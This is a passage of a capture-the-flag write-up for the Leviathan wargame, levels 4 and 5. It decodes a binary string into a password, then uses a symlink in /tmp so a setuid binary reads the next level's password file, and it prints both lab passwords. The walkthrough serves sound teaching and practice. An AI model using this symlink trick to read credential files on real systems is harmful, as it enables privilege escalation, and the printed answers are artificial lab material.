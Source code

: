 ```bash
leviathan4@leviathan:/tmp/lvl4$ vim leviathan4.py
leviathan4@leviathan:/tmp/lvl4$ python leviathan4.py
[*] Input:
01010100 01101001 01110100 01101000 00110100 01100011 01101111 01101011 01100101 01101001 00001010

[*] Converting Binary to ASCII:
01010100 => T
01101001 => i
01110100 => t
01101000 => h
00110100 => 4
01100011 => c
01101111 => o
01101011 => k
01100101 => e
01101001 => i

[*] PASSWORD:
Tith4cokei
```

## Level 5

SYMLINKS

```bash
leviathan5@leviathan:~$ ls -la leviathan5
-r-sr-x--- 1 leviathan6 leviathan5 7764 May 10 18:27 leviathan5
leviathan5@leviathan:~$ ./leviathan5
Cannot find /tmp/file.log
```

When we run the binary in Leviathan5’s home directory, it appears to be attempting to read from a file in /tmp. The binary is owned by Leviathan6 but belongs to the Leviathan5‘s group. Therefore, it can pull Leviathan6’s password.

Since we need Leviathan 6's pass, symlink that to the log we create within the same command:

```bash
leviathan5@leviathan:~$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
leviathan5@leviathan:~$ ls -la /tmp/file.log
lrwxrwxrwx 1 leviathan5 leviathan5 30 Aug 31 23:31 /tmp/file.log -> /etc/leviathan_pass/leviathan6
```

Now run the binary, which apparently reads whatever is in /tmp/file.log

```bash
leviathan5@leviathan:~$ ./leviathan5
UgaoFee4li
```

The following command creates a symbolic link at the command-line interface (shell):

 ln -s target_path link_path

target_path is the relative or absolute path to which the symbolic link should point. Usually the target will exist, although symbolic links may be created to non-existent targets. link_path is the path of the symbolic link.
